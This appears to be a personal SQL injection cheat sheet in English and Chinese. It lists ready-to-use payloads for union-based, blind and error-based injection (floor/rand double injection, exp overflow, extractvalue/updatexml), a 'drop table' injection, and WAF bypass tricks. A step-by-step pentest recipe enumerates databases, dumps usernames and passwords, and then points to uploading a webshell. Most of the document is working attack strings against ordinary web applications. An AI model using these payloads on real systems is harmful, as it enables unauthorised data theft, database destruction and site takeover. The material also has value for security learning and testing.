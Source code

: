 # SQL injection  
SQL is a famous database engine which is used with web server. In this situation, we can inject some SQL based code to get what we want <3.  
[Remember, practice makes perfect!](http://www.tutorialspoint.com/mysql_terminal_online.php)   
  
### Basic injection  
select password from users where name = '$id';  
So, what can we insert into $id?  
```sql  
5566 or 1=1 --  
5566; drop table hello  // execute drop table on second line  

rafael' or 1=1 --  // select password from users where name = 'rafael' or 1=1 --';  
rafael' or ''='    // select password from users where name = 'rafael' or ''=''; 
```  
  
### Union based  
Try on terminal what will **SELECT name, password FROM users WHERE id = 1 UNION SELECT 1, 2** happen?  
Ans: The union result will show as second result with matching column of name and password!  
Therefore, if we just want the info we need, we can make the first clause not exist...  
```sql
select name, password from users where id = 1 and 1 = 0 union select 1, 2;  
```
```sql
// 秀出當前的庫名,使用者
select name, password from users where id = 1 and 1 = 0 union select database(), system_user();
```
```sql  
// 可以得到目前資料庫下的表名,欄位名  
... union select column_name, table_name from information_schema.columns where table_schema=database(); 
```
```sql
// 也可以得到其他資料庫的名字!  
... union select table_schema, table_name from information_schema.columns;  
// 我的 k朋友說: 尋找 資料庫就應該用schemata, 回傳才不會重複而且有效率
... union select group_concat(schema_name) from information_schema.schemata;  // group_concat會將結果合併成一行,我們甚至不需要limit
```
```sql
// 可以得到所有table和column的名字 
... union select table_name, column_name from information_schema.columns;
```
```sql
// 回傳的結果太多 , 我們可以用 limit加以限制
// 網頁常常只能show唯一的結果
... union select table_name, column_name from information_schema.columns limit 1, 1;  
```  
```sql  
// 在做union select時如何知道columns的數量  
? id =' or 1=1 order by N--+    // N一筆一筆增加直到頁面無法正確顯示, --+註解掉後面的條件, +是代表註解後面要有空白!
```
[What's in information_schema.columns?](https://dev.mysql.com/doc/refman/5.7/en/columns-table.html)  
**group_concat() is also a litte trick.**

### Blind based   
When we cannot show results what we want, we still can find whether it exists or not.  
**True**: Web page shows normal.  
**False**: Web page shows error or blank.  
```sql  
... exists (select * from table);  // 配合 AND使用
```

### Time based  
Wait for my first time practice ><...
  
### Error based  
* Analyze the error message  
```sql
My payload: ?id = 2'
Error: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''2'') LIMIT 0,1' at line 1
```
看到**near**和**at**的字眼，我們可以刪除左右的單引號，剩下的sql語句應是: ```'  2'  ') LIMIT 0,1```  
因此，注入語句應該是: ```') or 1=1--+```  
* Double injection 
```sql
/**
we need:
count()            // Important* 分組語句多要跟聚合語句配合才能回傳數據列
concat()            // error會把碰撞的主鍵吐出來，因此我們需要把key跟查詢對象concat在一起
floor(), rand()
group by
**/
?id = 1' union select count(*),1,concat((select database()),'~',floor(rand()*2))as a from information_schema.schemata group by a--+
// 當我們清楚原理之後，也可以改成:
?id = 1' or 1=1 group by concat(database(),floor(rand()*2)) having min(0)--+
```
```floor(rand()x2)``` 為穩定序列，造成```group by key```的碰撞! (非常推薦以下文章
[The recommended aticle](http://dogewatch.github.io/2017/02/27/mysql-Error-Based-Injection/)  
* Interger Overflow  
```exp()```在sql版本大於5.5.5時才會有error  
```sql
exp(~(select*from(select user())a));  // 內部查詢結果為0, 經過逐位取反(~)後得到的是18446744073709551615,然而exp(710)就會溢出!
// 後面的a ? 是alias, select*from 後再做子查詢需要給他別名
```
```select```回傳結果也可以用於計算，查詢成功->0，失敗->1 (非常重要!  
[The recommended article](http://vinc.top/2017/03/23/%E3%80%90sql%E6%B3%A8%E5%85%A5%E3%80%91%E6%95%B4%E5%BD%A2%E6%BA%A2%E5%87%BA%E6%8A%A5%E9%94%99%E6%B3%A8%E5%85%A5%E5%8E%9F%E7%90%86/)  
* xpath syntax error  
```extractvalue()```,```updatexml()```諸如此類函數可以對user指定xml語法做查詢語修改  
```sql
?id=1" or/and select extractvalue(1,concat(1,(select database()),0x7e));
?id=1" or/and select updatexml(1,concat(1,(select user()),0x7e),1);
// 由於中間xml語法錯誤，會將database()結果顯示於錯誤訊息
```
  
### WAF bypass
WAF is a defender for web.  
繞過手勢:  
- No 'space'  
  - ```select/**/username/**/from/**/users;```
  - ```union select 1,2``` -> ```union(select(1),2)```
- No 'select'...  
  - ```大小寫混淆 e.g. SelecT``` 
- No comma ','  
  - ```union select 1,2,3``` -> ```union select * from ((select 1)a join (select 2)b join (select 3)c);```   
- Encode your payload  
  - ```URL-ENCODE, HEXIDECIMAL, UNICODE```
  
### Webshell  
Based on the provilege of db user, we can upload shell to read or write to db.  
  
### Trick of Pentesting  
Here are some tricks of pentesting, step by step from find the vulnerability to exploit it!  
1. SQL vulnerability? injection point?  
```sql
1' or 1"
```
這裡, 我們要判斷出sql漏洞的存在與否, 並且從error message判斷原生語句 

2. Number of columns   
```sql
1' order by N--+   // 不斷增加N的數量, 直到頁面顯示錯誤
```
這裡我們就可以確認query的字段數, union select用起來也比較方便  

3. Where are the SNAKES we want?  
```sql
1' and 1=2 union select 1,2,...N--+   // 加以確認我們注入的東西會出現在哪裡
```  

4. First, we need to know some basic information...   
```sql
...union select user(),database(),version(), @@version_compile_os--+  // 後面兩個分別是資料庫版本以及作業系統版本
```  

5. Start the exciting part...  
```sql
...union select 1,2,...,group_concat(schema_name) from information_schema.schemata--+  // get all database name
```  
```sql
...union select 1,2,...,group_concat(table_name) from information_schema.tables where table_schema='FUCK'+--+  
// FUCK那邊也可以用hex表示
```
```sql
...union select 1,2,...,group_concat(column_name) from information_schema.columns where table_name='users'+--+
// 這邊還是比較喜歡用table_schema,如果懶得決定要鎖定哪張表XD...
```
```sql
// 最終目的
1' and 1=2 union 1,2,...,group_concat(username,password) from users+--+  
```  
6. After get username and password to login, we can write a webshell to upload!
